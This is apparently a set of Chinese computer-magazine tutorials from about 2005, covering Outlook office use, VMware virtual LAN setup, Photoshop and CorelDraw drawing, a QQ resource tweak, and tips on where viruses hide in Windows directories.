小编有话说：小编特也试用了NIS 2005，发现其启动速度比老版本快了很多，而且打开主窗口速度也很快，对网速的影响也很小，仅这三个理由NIS的老用户就应该考虑升级到新版本了。另外小编也发现NIS 2005减少了网络防火墙警告，更多的是NIS 2005在后台自动判断应用程序存在的威胁，非常方便。最后，不得不提到你在关闭防火墙时还会看到NIS 2005的另一项新功能(见图4)。



(北京 神农)

##快乐工作从 Outlook 开始……

李娜是北京某软件公司的教育软件事业部项目经理，这天上班赶上堵车，到单位时看看表，不早不晚正好9点，好悬啊，差点迟到，要知道迟到一分钟也要扣奖金的哦。她赶紧打上考勤卡，回到办公位上，又开始了忙忙碌碌的一天，一个和Outlook紧密配合的一天！

###9:00 在 Outlook 中添加新的电子邮箱

对外公布的电子邮箱容易受垃圾信干扰，李娜昨天临下班前注册了一个新邮箱，只对业务联系非常密切的少数几个人开放，但还没有设置进Outlook，于是一打开电脑她就开始把这个工作完成。

- 第一步：启动Outlook后，点击菜单命令“工具→电子邮件帐户”打开一个向导窗口。
- 第二步：单击选择“添加新电子邮件帐户”项，再点击“下一步”按钮进入下一个界面，在服务器类型中选择“POP3”；点击“下一步”进入下一个界面，如图1所示填写用户信息，包括姓名(这项可随意填写)、邮件地址、POP3和SMTP服务器地址以及用户名和登录密码等，这些信息一般都可以在电子邮箱服务提供商的网站中找到，如果是单位内部邮箱则可以向本单位的网管索要。
- 第三步：填写好上述各项后再单击“其他设置”按钮打开邮箱设置窗口，单击“发送服务器”标签，再单击选中“我的发送服务器(SMTP)要求验证”并选中“使用与接收邮件服务器相同的设置”，单击“确定”按钮返回向导窗口。

**小提示**
目前国内的邮箱网站为了避免成为垃圾邮件的中转站，都对SMTP服务器发信进行了认证，只有是该服务器的用户才可以发信。所以，如果想让信箱既能收信还能够发信，就必须进行第三步的操作。

- 第四步：单击“下一步”，再单击“完成”，即可结束对新电子邮箱的设置。



###9:20 例行公事，阅读、处理所有邮件

李娜所在的教育软件事业部每天都会收到大量外部用户及单位内部的邮件，需要及时处理，以免积少成多丢失重要信息。

- 第一步：在Outlook主界面中，点击工具栏上的“发送/接收”按钮，即可将网络服务器上的所有信件收取到本地硬盘上，收信过程中会有窗口实时显示工作的进程。
- 第二步：在左侧导航窗格中单击“邮件”按钮，再点选“收件箱”，则中间显示出收件箱窗格，列出所有收到的邮件标题，按日期先后分类排列(点击日期前面的“+”号或“-”号可以展开或折叠邮件标题)，点选某一邮件标题，在右侧窗格中即可阅读邮件的全文了。如果该邮件中带有附件，可双击附件中的文件名称，从弹出窗口中选择是打开或是保存它(见图2)。
- 第三步：对于需要回复的邮件，在点选该邮件之后再单击工具栏上的“答复发件人”按钮，将打开邮件撰写窗口，其中收件人地址、主题都已经根据原邮件的信息自动设置好了，而且还包含了原邮件的内容，你只需输入要回复的内容，再单击工具栏上的“发送”按钮即可(见图3)。





如果需要答复的邮件所提问题自己无法解决，需要转交给公司老总，则点选该邮件后，再单击工具栏上的“转发”按钮，同样也会打开邮件撰写窗口，主题及原邮件内容都已自动填充好了，只需在收件人地址栏中输入老总的邮箱地址，再单击“发送”就可以了。

除直接回复或转发邮件外，也可以创建新邮件，点击菜单命令“文件→新建→邮件”(或按Ctrl + N组合键)，即可打开新邮件窗口。可以看出，它和图3所示的窗口一模一样，只不过新建邮件窗口中，收件人的邮件地址、邮件主题等都必须手工填写。而在Outlook中撰写邮件，就如同是在Word中进行操作一样，可以任意插入图片、表格，可以像Word一样设置字体格式、背景、文章版式等。如果需要添加签名，点击“工具→选项”，在“邮件格式”选项卡中进行设置即可。

如果当前邮件处于文本模式下，则在你试图插入图形等多媒体元素时，Outlook会提示你转入到HTML格式的邮件中操作。

## 10:20 巧用规则，让邮件自动各就其位

李娜发现，新注册的fly2spring@sohu.com中的邮件和其他信箱的邮件都混在了同一个收件箱中，这样一来一些重要邮件还是容易被淹没在普通邮件甚至是垃圾邮件中，怎么办？忽然想起Outlook设定有许多邮件规则，不妨用它们来把邮件归类。

-   第一步：Outlook默认创建的文件夹有“草稿”、“发件箱”、“收件箱”等，我们也可以自己创建一些新的文件夹。在Outlook左侧导航窗格中点击“邮件”，然后右击“个人文件夹”项，从弹出菜单中选择“新文件夹”打开新建窗口，输入文件夹名称（李娜输入的是“fly2spring信箱”，将专门用来接收发到fly2spring@sohu.com信箱的邮件），单击“确定”。以此类推，有几个信箱就新建几个文件夹。

-   第二步：点击菜单命令“工具→规则和通知”，在“电子邮件规则”页签中单击“新建规则”，在打开的向导窗口中选择“空白规则”，“步骤1”列表中选“邮件到达时检查”，然后单击“下一步”。如图4所示，单击勾选“收件人电子邮件地址中包含特定词语”项，并点击下方的超链接“特定词语”打开查找文本对话框，输入“fly2spring”（即信箱的用户名，符号@前面的部分）后单击“添加”按钮将其加到搜索列表中，再单击“确定”返回。

-   第三步：继续点击“下一步”按钮后，在“步骤1”中单击选中“将它移动到指定文件夹中”，接着在“步骤2”中点击“指定”超链接，在弹出的窗口中选择前面新建的“fly2spring信箱”文件夹，然后点击“确定”按钮返回。最后点击“完成”按钮，这样，一个邮件规则就建立完毕，以后再有发送到fly2spring@sohu.com的信件，就会自动转到“fly2spring信箱”中了。



## 10:30 电子邮件投票表决器

对于公司计划推出《轻松学VC++》多媒体教学光盘产品一事，在教育软件事业部内部产生了不小分歧：(1)有些人认为学习VC++涉及到许多抽象的内容，很难以多媒体形式表达出来，并且学编程的用户群体有限，市场前景不容乐观；(2)而有些人则认为多媒体集视听于一体，更容易领初学者入门，学编程的人实际上不少，主要是因为门槛太高被挡在门外，所以相信此光盘产品能有很好的销路。

李娜决定先在内部搞一个投票表决，等大家统一认识后，再请示上级部门决定。不过这几天有好几个同事休假，不在单位，李娜便借助Outlook的内置工具搞了一个电子邮件投票（小编强烈建议老编，在加班订饭时用上这一招，让大家表决是吃牛肉饭还是Pizza，呵呵）。

联系人列表则可以跳过这一步。点击菜单命令“文件→新建→联系人”，打开联系人窗口。如图5所示，输入联系人的“姓氏”、“表示为”、“电子邮件”、“显示为”等基本信息（你可以根据实际情况，为联系人添加更多的信息）。点击“保存并关闭”按钮后即可将其添加到联系人列表中。以此类推，添加其他联系人。



-   (2)接下来建立通讯组。在Outlook主界面中点击菜单命令“工具→通讯簿”，如图6所示，在打开的通讯簿窗口中点击菜单命令“文件→添加新地址”，在添加新地址窗口中选择“新通讯组列表”项后再单击“确定”，在接下来的窗口的“名称”中输入通讯组名称（本例中为“事业部的同事”），然后单击其上的“选择成员”按钮，配合使用Ctrl键选取多个联系人后，连续点击“确定”、“保存并关闭”，最后关掉通讯簿窗口即可。



-   第二步：按Ctrl + N组合键写新邮件，单击新邮件窗口上的“发件人”，在打开的“选择姓名”窗口中选取刚才建立的“事业部的同事”通讯组，确定即可。这时在新邮件窗口的收件人文本框中将出现“+事业部的同事”字样。

-   第三步：单击新邮件窗口工具栏上的“选项”按钮，在打开的选项窗口中单击勾选“使用投票按钮”，并在其后的文本框中输入“赞成(1);赞成(2)”（不含引号）。有几个选项就会有几个按钮，不过一定要注意，各选项之间要用英文逗号隔开，接着选中“将答复发送给”项，在后面填入接收的邮箱地址（见图7）。



-   第四步：关闭选项窗口返回并发送邮件，在将要发送的邮件中是看不到投票按钮的，只有接收者才能看到，如图8所示，接收邮件的人单击提示，再从弹出菜单中点选相应选项，又会弹出一个窗口，单击“确定”后收信人的投票表决就被发送到前面设置的fly2spring@sohu.com中了。点击表决邮件上的提示，还能查看到所有的投票表决统计呢。



## 11:00 Outlook提示:别忘了下午有个会

时间过得真快啊，又快到吃午饭的时间了。李娜想起下午3点钟要和小白一起参加总公司的一个会议，可别一吃饭就给忘了，还是让Outlook提前半小时提醒一下自己吧。

-   第一步：在Outlook中点击左侧导航窗格中的“日历”打开日历界面。

-   第二步：每个小时都分上半时和下半时两行，双击14:00的下半时行，打开一个新建约会窗口，在主题内填写“今天下午开会”，开始时间和结束时间都已经自动设置为14:30～15:00了（你可以自己重新设置），然后单击选中“提醒”项，并将提前的时间设置为30分钟，点击“保存并关闭”按钮。

-   第三步：到了提醒时间，Outlook就会弹出一个提示窗口（带有提示音响），提示你约会的时间就要到了，在该对话框中单击“消除”按钮即可去掉这个提示了。

如果你想让Outlook在提醒自己的时候还同时通知小白，可使用Outlook的会议功能。

-   第一步：点击菜单“文件→新建→会议要求”，打开新建会议窗口。
-   第二步：在收件人一栏填写小白的邮件地址，然后填好其他各栏的内容，设置好开始时间和结束时间，并设置提醒时间，点击“发送”按钮即可。小白在接收到李娜的会议要求后，会自动在日历中添加约会，也会在指定时间提醒。小白如同意这件事，点击预览窗口中的“接受”按钮，在弹出的对话框中选择“现在发送响应”，点击“确定”按钮后，一封表示同意的邮件就又发回给李娜了。

## 11:10 记事便笺，给老总留个言

总算可以安心地吃饭去了，李娜刚要动身，电话却响了，原来是网络部的经理有急事找老总，找不到，所以让李娜看到老总时，帮忙说一声。这点小事，当然没问题了，就在自己的桌面上留个便笺记一下吧。

-   第一步：在Outlook中，执行菜单命令“文件→新建→便笺”（或按Ctrl + Shift + N键）新建一个便笺。
-   第二步：接下来就可以最小化Outlook了，而便笺窗口依然贴在屏幕上，这时就可以把事情记下来了（见图9）。



-   第三步：单击便笺左上角的图标，从弹出的菜单窗口中，可以选择将便笺保存、打印或转发出去。如果又有了新的事情要记，则可以在弹出菜单中选择“新便笺”。单击右上角的“X”按钮可关闭便笺。

小提示：在IE中浏览网页或在Word中看DOC格式的电子书时，可以选中感兴趣的内容，直接拖放到便笺窗口中保存起来。所有支持拖拽的软件，都可以进行这个操作，非常方便。

## 14:00 特别的人，特别的跟踪

吃完饭回来，李娜想起之前联络的几个《轻松学VC++》多媒体光盘的脚本作者一直没有回音，还是跟踪一下他们的消息，免得人多事杂给漏掉就麻烦了。

-   第一步：点击菜单命令“工具→选项”打开选项窗口，在其“首选参数”选项卡中，点击“日记选项”按钮打开日记选项窗口。在该窗口的“自动记录”列表中，单击选中“电子邮件”项，在“联系人”列表中单击选中所有需要消息跟踪的联系人，确定后返回并关掉选项窗口。

-   第二步：单击“日记”按钮打开日记视图，如果收到了特定联系人的电子邮件时，就会看到通知，双击相应通知即可打开其回复的邮件查看了。

李娜又收了一下信箱，还真有几个作者回复了，并且陆续收到了上午的投票表决邮件，统计了一下，赞成上这个项目的人居多。突然Outlook“叮呤”响了一声，还弹出了提示窗口，原来到了提醒时间，提示快要开会了。单击“消除”按钮即可去掉这个提示，李娜有点不放心，又设置了一个时间（“开始前5分钟”），再单击“暂停”按钮关掉这个窗口，然后就开始准备资料。果然，在开会前5分钟，它又弹了出来，李娜关掉窗口便开会去了。



会弹出一个日历窗口，点选某个时间即可设置，点击日历窗口两侧的三角箭头可改变月份设置。

## 17:00 新项目开始啦，给下属们分配任务吧

在总公司会议上，《轻松学VC++》多媒体教学光盘的方案终于通过了。老总直接下发命令，两个月后产品必须要上市，具体任务由李娜统筹安排。开完会后李娜便开始规划起任务来了。

-   第一步：在Outlook中单击左侧导航窗格中的“任务”，再单击菜单命令“文件→新建→任务”，打开任务对话窗口。如图10所示，填写项目主题名称、设置项目截止及开始的日期，以及设置提醒时间、任务简介等。最后单击工具栏上的“保存并关闭”按钮保存任务。

-   第二步：再新建一个任务，在任务窗口的工具栏上单击“分配任务”按钮，则该窗口上会多出一个“收件人”按钮，单击它并选择要分配给他任务的那个联系人（如：“小白”），或直接在其后的文本框中输入接收任务人的邮件地址。其他选项如上一步所示，填写好任务名称及时间等各种细节后，单击工具栏上的“发送”按钮，即可将任务发送给小白了。分配给其他人的任务可以同样的方法发送。

小提示：单击“截止日期”或“开始日期”右侧下拉按钮，

小提示：在分配任务窗口中，选中“在我的任务列表中保存此任务的更新副本”一项，则别人在任务进行当中会自动发来通知消息，只要打开这个消息，任务表中就会自动修改这个任务。选中“此任务完成后给我发送状态报告”项，则别人将任务标为完成时，你会收到自动状态报告消息，表示任务完成。

-   第三步：当别人接受到任务时，就会收到一条电子邮件消息，有任务交待，并有“接受”和“谢绝”两个按钮，如果点击“接受”按钮，则这个任务自动加进他的任务表中，并成为任务拥有者。不管是点击“接受”还是“谢绝”，都会给你发回一条确认消息。

-   第四步：最后完成任务后，就可以把它从任务表中勾掉了，在任务视图窗口中单击勾选已完成任务的复选框即可。

## 17:30 最后和垃圾邮件决斗

终于完成了一天的工作，李娜收拾了一下东西，最后打开Outlook接收一下今天的邮件，没想到现在的垃圾邮件如此之多，竟然有100多封。看来还好好整治一下它们。

-   第一步：点击菜单命令“动作→垃圾邮件→垃圾邮件选项”，在“选项”选项卡内设置垃圾邮件保护级别，看过几个级别说明后，李娜选择了“高”。

-   第二步：今天正好看到《电脑爱好者》杂志第3期《垃圾邮件 你真的惹恼我了！》提供了一个很强的垃圾邮件黑名单，于是她也下载了一份，在“垃圾邮件选项”窗口中点击“阻止发件人”标签，再单击“从文件导入”按钮导入下载的Blacklist.txt。

-   第三步：对于Outlook没有识别出来的垃圾邮件，只要在收件箱中右击垃圾邮件，接着点击菜单“动作→垃圾邮件→将发件人添加到‘阻止发件人名单’”即可。

-   第四步：不过，李娜不放心，怕一些有用的邮件被误删了，所以在垃圾邮件文件夹中翻看了一遍，如果有非垃圾邮件，可以选中后，点击菜单命令“动作→垃圾邮件→标记为非垃圾邮件”，该邮件就会被送回到收件箱中。

冬天的夜来得特别地早，外面已是万家灯火。这就是一个白领丽人的一天，这就是大多数IT业者的一天。
（北京 阿飞 河北 老周）

## 今天做个只有一台电脑的网络管理员

不少朋友对局域网感兴趣，却苦于只有一台电脑无法搭建局域网环境，只能望书兴叹。著名的虚拟机软件——VMware则正好提供了一套虚拟的网络平台，通过它，只需一台电脑就能玩组网，甚至不用买网卡、做网线、购买交换机等设备。它组建的局域网与真实局域网的功能几乎一样，各种软件操作也差不多。本文将帮你学会组建几个不同类型的局域网，对学习网管技术有很大帮助。

## 任务一：组建简单的对等网

任务难度：★★
任务要求：计算机操作系统为Windows XP，用VMware虚拟一台Windows 2000电脑，组成对等网，组网后虚拟机能共享宿主机的文件、打印机和上网连接。

现有条件：安装了Windows XP的电脑，并已安装好VMware。



-   第一步：启动VMware，点击“新建虚拟机”新建一台虚拟机，参数如下：
    虚拟机名称：Windows 2000 Professional
    虚拟机内存：192MB
    虚拟机硬盘类型：IDE
    虚拟机硬盘大小：4GB
    网络连接方式：使用桥接网络

-   第二步：把Windows 2000安装光盘插入光驱，点击VMware菜单“虚拟→设置”打开设置窗口，如图1所示，点击“CD-ROM”，在右侧选中“使用物理驱动器”，然后选择正确盘符（笔者机器上的光驱盘符为“H”）。接着启动虚拟机，把Windows 2000安装到虚拟机中。

-   第三步：首先设置宿主机的IP地址。右击桌面上的“网上邻居”图标并选择“属性”命令打开“网络连接”窗口；右击“本地连接”并选择“属性”命令打开本地连接的属性设置窗口；双击打开“Internet协议（TCP/IP）”，选中“使用下面的IP地址”项，然后在IP地址中输入“192.168.0.1”，子网掩码设置为“255.255.0”，单击“确定”（见图2）。



小提示：只有IP地址在同一网段中的电脑才能相互访问，因此需要手工设置宿主机与虚拟机的IP地址。192.168.0.1~192.168.0.254为C类IP地址，可以自由分配使用。

-   第四步：接下来设置虚拟机IP地址。操作在虚拟机的Windows 2000中进行。同第三步操作，打开虚拟机的“Internet协议（TCP/IP）”属性窗口，选中“使用下面的IP地址”，然后在IP地址中输入“192.168.0.2”，子网掩码设置为“255.255.255.0”。

-   第五步：回到宿主机中，在宿主机中开启Guest账户。在控制面板中双击打开“用户账户”窗口，点击“Guest”账户，然后点击“启用来宾账户”按钮以开启Guest账户。
    Windows 2000/XP需要对来访账户进行身份认证，因此需要打开“Guest”账户，虚拟机才能访问宿主机的共享资源。

-   第六步：把宿主机中E盘下的test目录设置为共享文件夹。宿主机共享文件夹设置完毕后，在虚拟机上打开“网上邻居→邻近的计算机”后打开相应的计算机名，即可读取共享文件夹中的内容了。我们还可以在虚拟机中设置共享文件夹，让宿主机也能访问虚拟机上的资源。

-   第七步：在宿主机中把宽带连接“ADSL”设置为共享。右击“网上邻居”，选择“属性”命令打开网络连接窗口。右击连接“ADSL”，选择“属性”命令，点击“高级”标签页（见图3）。
    选中“允许其他网络用户通过此计算机的Internet连接来连接”，并在“家庭网络连接”下面选择“本地连接”，点击“确定”按钮。
    注意，下面转入虚拟机中设置虚拟机“本地连接”的IP地址，把IP地址设置为192.168.0.2，子网掩码设置为255.255.255.0，默认网关设置为192.168.0.1，同时把下面的“首选DNS服务器”设置为“192.168.0.1”。点击“确定”按钮使设置生效。
    连接共享启用后，只要宿主机能上网，虚拟机就能直接访问互联网。虚拟机也可以安装RASPPPoE软件直接使用宿主机的ADSL Modem拨号上网。



## 任务二：组建带有域控制器的网络

任务难度：★★★★
任务要求：组建带有域控制器的网络，虚拟机通过代理服务器访问互联网（《电脑爱好者》杂志社的内部网络就属于这种类型）。

-   第一步：在宿主机中安装 Windows 2000 Advanced Server。
-   第二步：把宿主机配置成为域控制器，假设域名为 domainabc（具体设置方法请参考 Windows 2000 Server 相关书籍）。
-   第三步：在宿主机中安装 VMware，并用 VMware 制作一台虚拟计算机，各项参数同任务一的参数，网络工作方式设置为“使用桥接网络”。
-   第四步：为虚拟机安装 Windows 2000 专业版操作系统。
-   第五步：把宿主机本地连接的 IP 地址设置为 192.168.0.1，子网掩码设置为 255.255.255.0。
-   第六步：在宿主机中添加域用户，设置好用户名和密码（这里假设用户名为 ABC，密码为 123456）。
-   第七步：把虚拟机的本地连接 IP 地址设置为 “192.168.0.2”，子网掩码设置为 “255.255.255.0”。
-   第八步：在虚拟机中新建一账户，用户名和密码分别为 ABC 和 123456，然后用这个账户登录。
-   第九步：在虚拟机中右击“我的电脑”选择“属性”命令，在“网络标识”标签页中点击“属性”按钮，在“标识更改”窗口中把“隶属于”选择为“域”，同时在下面输入域名“domainabc”，点击“确定”按钮后根据提示将虚拟机加入域（见图 4）。
-   第十步：在宿主机中安装并配置代理服务器软件 Wingate，HTTP 代理端口设置为 8080， Socks5 代理端口设置为 1080（具体设置方法请参考相关文章）。
-   第十一步：在虚拟机中右击 IE 图标，选择“属性”命令，打开 IE 配置窗口，在“连接”标签页中点击“局域网设置”按钮，选中“使用代理服务器”，把地址设置为 “192.168.0.1”，端口设置为 8080（见图 5）。对于 QQ 类支持 Socks5 代理的软件，把代理服务器的类型设置为 Socks5，地址设置为 192.168.0.1，端口设置为 1080。





★这项任务涉及的知识非常广泛，既涉及到域控制器的安装配置，又涉及到客户机如何加入域，还涉及到代理服务器的设置和使用。限于篇幅，这里无法详细讨论，希望感兴趣的朋友参考相关书籍。

★在局域网中的计算机上安装 VMware 虚拟机，可以向网管为虚拟机申请一个 IP 地址，虚拟机就可以直接加入到局域网的真实域中了。

## 任务三：让虚拟的 Linux 服务器为局域网提供服务

任务难度：★★★★☆
任务要求：局域网内的一台电脑，操作系统为 Windows XP，用 VMware 虚拟一台 Red Hat Linux 系统，并为局域网提供 Web 服务。

现有条件：局域网中一台安装了 Windows XP 的电脑，并已安装好 VMware。

-   第一步：用 VMware 建立一台虚拟机，参数如下：
    虚拟机名称：Red Hat Linux
    虚拟机内存：192MB
    虚拟机硬盘类型：IDE
    虚拟机硬盘大小：8GB
    网络连接方式：使用桥接网络
-   第二步：向网管申请可用的 IP 地址。
-   第三步：为虚拟机安装 Red Hat Linux 操作系统，将虚拟机的 IP 地址配置为第二步中申请的 IP 地址。
-   第四步：在 Red Hat Linux 中配置好 FTP、Apache，并启动相关服务。
-   第五步：把做好的网页通过 Red Hat Linux 提供的 FTP 上传到 Apache 工作目录中即可。
（河北 周建军）

## 我的iPod 我的青春摇摆

不知各位是否看过苹果公司的 iPod 广告——一个人听着 iPod 音乐，忘我地随意摇摆，背景是明亮的纯色，人物是黑色剪影，只有 iPod 清晰可见——广告表达的诉求再明白不过，广告给人的感觉也是动感逼人。其实使用 Photoshop，你也可以动手为自己打造出这种 iPod 风格的画面，同时还能让其中的人物动起来。

-   第一步：本例不仅仅是制作一张静态的剪影照片，而且还要让剪影动起来，所以要多准备一些照片，最好是动作连贯的。如图 1 所示，是笔者准备的一组网球运动员的照片（素材下载地址：http://www.newhua.com/cfan/200503/iPod.zip）。



-   第二步：首先需要将人物轮廓选取出来。如果图片背景是较为单纯的颜色，可以使用魔棒工具点一下背景，再按 Ctrl + Shift + I 组合键反选，即可将人物轮廓选取出来；如果图片中人物和背景的颜色有较大反差，则可以使用磁性套索工具沿着人物的轮廓绕一圈，它会自动查找边缘并选择出人物轮廓；如果以上条件都不具备，就得使用套索工具耐心地勾选了。当然，不必对一些细节过于纠缠，因为变成轮廓后很多东西是看不出来的。

-   第三步：完成选取后，按下 Ctrl + J 组合键将选区内的人物复制为新图层（图层1），接着再新建一个图层（图层2），按住 Ctrl 键并单击人物图层（图层1），将其轮廓作为选区载入，确保图层2为选中状态，然后按下 D 键将前景色和背景色恢复为默认的黑白两色，再按下 Alt + Delete 组合键为选区填充黑色。按下 Ctrl + D 组合键取消选择，现在画面上的人物只剩下黑色轮廓了（见图2）。如果觉得轮廓边缘有些毛糙，可选择菜单命令“滤镜→模糊→高斯模糊”，在对话框中填入 0.3 像素，为黑色轮廓做一点点模糊，使其边缘不那么生硬。





-   第四步：可是那样黑乎乎的一团，谁知道这个人在干什么呢？没关系，答案马上就揭晓。选择橡皮擦工具，在选项栏上选择模式为“画笔”，将不透明度降低到10%左右，流量为100%，再选择一款大直径的柔软画笔，然后在黑色轮廓的球拍和人物的手上涂抹，使手部隐约显现，而球拍完全清晰显露（见图3）。修饰工作完成后，按下 Ctrl + E 组合键，将黑色轮廓和人物图层合并。

-   第五步：新建一个文件，背景填充为蓝色（R:19 G:121 B:249）。从照片图像窗口中，将人物轮廓拖过来，调整大小和位置，并将其所在的图层命名为“人物1”。再打开系列图片中的另外几幅，用同样的方法制作人物轮廓，都拖到新建的文件窗口中，分别命名为“人物2”、“人物3”等。笔者的作品中有四个人物（见图4）。

-   第六步：按 Ctrl + S 组合键保存好图像（PSD 格式），单击工具箱最下方的跳转按钮转到 ImageReady 中继续进行操作，我们要让人物轮廓动起来。初始状态下，ImageReady 的动画调板中只有一帧（如果动画调板没有显示，可执行“窗口→动画”命令将其调出）。在图层调板上，隐藏除了背景和“人物1”之外的其他所有图层（点击图层前面的眼睛图标，该图层即可在显示和隐藏状态之间切换），这样第1帧动画就成了只显示人物1的状态。单击调板底部的“复制当前帧”按钮，建立第2帧动画，在图层调板上隐藏图层“人物1”，并显示图层“人物2”。依此类推，第3帧和第4帧分别显示图层“人物3”和“人物4”。



-   第七步：结合 Shift 键，选择全部四帧，单击任意一帧底部的时间下拉菜单，选择 1.0 秒。然后单击“复制当前帧”按钮则可复制当前所选的四帧，将新的四帧停留时间设置为 0.5 秒。再复制两次，并分别将停留时间设置为 0.2 秒和 0.1 秒。现在就有 16 帧动画了（见图5）。单击动画调板底部的播放按钮预览一下动画效果。如果满意，就可以输出结果了。



-   第八步：切换到优化调板上，在“预设”下拉菜单中选择“GIF 128 仿色”，此项预设完全可以满足我们这个动画作品的颜色要求。选择菜单命令“文件→将优化结果存储为”，将动画保存为 GIF 图像文件。好了，现在就可以观看我们的动画作品了，用图像浏览软件或 IE 浏览器均可打开。还可以利用“文件→导出”命令将动画导出为 Flash 动画或其他形式的文件。
（天津 奇士）

## CorelDraw:成就平面设计师

CorelDraw，世界级的绘图设计软件，专业平面设计师们最喜爱的软件之一。它功能强大，可应用于平面设计、网页设计、图书排版、动漫创作、插图创作等多种领域。位图格式的图片在放大若干倍后，就会出现马赛克现象，图像质量大打折扣，而CorelDraw产生的图形为矢量格式，它不受具体像素分辨率限制，设计出的图形放大很多倍后依然清晰无锯齿。

## 佳作欣赏

在大家学习CorelDraw之前，先欣赏其他一些CorelDraw作品，相信能激起你浓厚的兴趣（见图1）。


## 自己动手画风景

在欣赏完别人的作品后，接下来开始我们的CorelDraw之旅吧，如图2所示，是我们完成的风景画最终效果：落日的余辉映红了天空与河面，远山的倒影在河面上依稀可见，满载而归的渔船慢慢向家的方向行进……在初学者看来（尤其是没有学过绘画的读者），这绝对是一个复杂的作品，但通过下面一步步剖析，你会发现制作起来是那么简单（本例在CorelDraw 12汉化版中完成）。



### 第一步:启动CorelDraw 12

它首先会打开一个欢迎画面，单击其上的“新建图形”按钮即可进入它的主界面，并创建一个新的图形文件。

- 小提示：如果不希望每次启动时都出现欢迎画面，可取消对该画面上“启动时显示欢迎屏幕”项的选择。以后，通过菜单命令“文件→新建”可随时创建新的文件。

### 第二步:绘制矩形并设置渐变填充

点选工具箱中的矩形工具（快捷键为F6），在绘图页面内拖画出一个矩形（画好后的矩形，还可以拖动矩形四周的锚点继续调整形状）。如图3所示，在对象属性泊坞窗（如果该窗口没有显示，可按Alt+回车组合键将其调出）的填充页签中单击渐变填充方式按钮，选择第一种线性填充方式，并单击“到”下面的下拉按钮，然后在弹出的色盘中点选第二行第三个颜色（黄色）；接着点击下方的“高级”按钮打开渐变填充方式对话框，其中的颜色调和点选为“自定义”方式，然后在样色条上方双击增加一个节点（上方会显示一个倒立的三角），再单击色盘中第三行第二个颜色将当前色设置为红色（当然，你也可以单击下面的“其它”按钮配置自己喜欢的其他红色）；适当向左拖动黑三角的位置使渐变中的黑色少一些；在“选项”的“角度”中设置为-90度，使渐变的方向为由上至下。单击“确定”返回，再单击“轮廓”页签，并将“宽度”设置为“无”，矩形的边框便没有了。



### 第三步:复制并翻转矩形

在工具箱中单击挑选工具，然后单击选中刚才所画的矩形，按Ctrl+C组合键复制，再按Ctrl+V组合键粘贴，粘贴出来的图形自动为选中状态，将光标移到上方中间的那个锚点上，然后向下一直拖动它，直到矩形块反转过来，并比原矩形稍高一些为止（见图4）。



### 第四步:绘制山的轮廓并填充

如图5所示，在工具箱中点击手绘工具右下角的小三角，在弹出的子工具箱中选中多点线工具。这个工具可以画出任意的多边形，每次点击鼠标它都会自动连线，当终点与起点重合的时候，就会结束绘制，并呈选中状态。画好山的轮廓线之后，在对象属性泊坞窗填充页签中，点击标准填充（左侧第一个图标），再点选黑色填充即可。



### 第五步:制作山的倒影并添加透明效果

按照第三步中的方法将山的剪影复制一份并翻转过来（适当收缩一下高度），作为山在水中的倒影。当然，倒影不可太黑了，如图6所示，单击交互工具右下角的小三角，再在弹出的子工具箱中点选交互透明工具。用这个工具点选刚粘贴的山的倒影，并由上至下拖动，倒影的颜色会越来越淡了，可根据情况适当调整。



### 第六步:绘制其他元素

画面中的其他元素，大家可参考上面的步骤进行绘制，都非常简单。其中树的剪影图像，可画好一个后再复制几个，再通过工具箱中的形状工具（第二个图标，快捷键为F10）适当变形即可。鱼船的倒影，可参考第五步中的方法进行制作（见图7）。



### 第七步:组合元素并绘制落日

将画好的各个元素摆放好位置，这幅夕阳晚景图就差不多了。这里对落日的绘制再加一点说明。首先是用椭圆工具拖画出一个正圆形，然后将渐变设置成径向渐变（在“渐变填充方式”中点击第二个图标），接着将“从”设置为红色，“到”设置为黄色即可。落日应该是在山的后面，所以放置好太阳的位置后，可按几次Ctrl+PageDown键，直到它移到山的背后为止。至此，一幅风景画就绘制完成了，怎么样，CorelDraw并没有你想象的那么难学吧。

### 第八步:保存与导出

点击菜单命令“文件→保存”可以将刚才的作品保存为多种格式，不过这里建议你一定要保存一份CDR格式，这是CorelDraw的专有格式，可以方便以后对你的作品重新修改。通过“文件→导出”命令还可以将作品导出为SWF格式，这样就可以在Flash MX中调用这些素材，以弥补Flash MX绘图功能的不足。

（本文实例作品取自国外网站，作者不详，编译：北京 一页）

## 哪些行业需要掌握CorelDraw

| 职业 | 用途 | 必备程度 |
| --- | --- | --- |
| 排版人员 | 图书、手册排版 | 挑选、绘图等基本工具的使用，理解CorelDraw中页面的参数设置，掌握长篇文本置入的技巧及图文混排的技术 |
| 平面设计师 | 装帧设计、平面广告 | 深入了解CorelDraw各种工具的使用，深入了解CorelDraw的布局技术、色彩配置等知识 |
| 插图画家 | 图书插图、卡通漫画 | 深入研究各项工具的各种属性和功能，达到了如指掌的地步，这样才能完美地表达出画者的灵感和想象 |

## 随心所欲定制你的QQ性别

上海读者李清:我看到QQ上有些朋友的性别既不是“男”，也不是“女”，请问如何修改呢？（李清获得选题奖50元）

### 方法一

使用MyIM可以直接进行修改，其下载地址为http://www.myim.cn/downloads/MyIM2004.exe。

### 方法二

关闭QQ，用eXescope（下载地址:http://www.onlinedown.net/soft/9594.htm），打开QQ目录下的QQRes.dll文件，然后在窗口左侧依次展开“资源→对话框→1439”，接着在窗口右侧选择“性别”下的“ComboBox”项，并点击“ComboBox”标签，修改其“类型”为“下拉”即可。重新打开QQ，在“个人设置”中就可以随意修改QQ中的“性别”项了（但仅能显示一个字）。

（阿力）

## 杀毒需注意的几个特殊目录及文件

经常碰到有朋友问，为什么用杀毒软件总是杀不掉某些目录下的病毒，即使在安全模式下操作也不行？实际上，Windows下一些目录和文件比较特殊，甚至有些是受操作系统保护的，因此常规方法无法对这些文件和目录的内容进行修改也就无法清除掉病毒。下面就针对经常遇到的特殊目录、文件给出解决方案。

- 1.病毒文件在Temporary Internet Files目录下
该目录是IE浏览器存放临时文件的目录，由于Windows处理此文件夹的方式较为特殊，因此杀毒软件杀除此目录的病毒时常常会提示“清除失败”或“请解压”。有时该目录下的病毒即使在安全模式下也无法清除成功。
正确做法是在IE的菜单中选择“工具→Internet 选项”，在“常规”页面中点击“删除文件”按钮，在弹出的对话框中钩选“删除所有脱机内容”并确定。同时，对于在该目录下发现的一些HTML文件报告有脚本病毒，则一般属于“僵尸代码”，不再具有危害性，可以不必理会。

- 2.SUHDLOG.DAT或SUHDLOG.BAK文件感染病毒
